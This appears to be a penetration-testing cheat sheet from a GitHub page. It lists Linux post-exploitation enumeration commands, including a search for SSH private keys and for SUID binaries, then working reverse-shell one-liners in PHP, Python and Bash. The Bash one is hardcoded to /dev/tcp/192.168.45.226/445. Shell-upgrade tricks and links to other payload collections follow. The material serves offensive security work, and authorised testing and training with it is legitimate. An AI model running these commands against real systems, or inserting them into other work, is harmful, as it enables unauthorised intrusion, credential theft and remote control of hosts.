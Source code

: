 ```

# find all writable files
find / -writable -type d 2>/dev/null

# find all writable files in /etc
find /etc -maxdepth 1 -writable -type f

# find all readable files in /etc
find /etc -maxdepth 1 -readable -type f

# enumerate readable/writable files and directories
find / -writable -type d 2> /dev/null

# enumerate unmounted disks
cat /etc/fstab
mount
/bin/lsblk
lsblk

# enumerate device drivers and kernel modules
lsmod
/sbin/modinfo libata

# enumerating binaries that AutoElevate
find / -perm -u=s -type f 2>/dev/null

# find SSH private keys
find / -maxdepth 5 -name .ssh -exec grep -rnw {} -e 'PRIVATE' \; 2> /dev/null

```


### Reverse Shell

**PHP**
```php
php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Python**

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

**Bash**
```bash
#!/bin/bash
/usr/bin/bash -i >& /dev/tcp/192.168.45.226/445 0>&1
```


**More shells**
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Reverse Shell Generator](https://www.revshells.com/)
- [Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
  - `python -c 'import pty;pty.spawn("/bin/bash")'`
  - `/usr/bin/script -qc /bin/bash /dev/null`
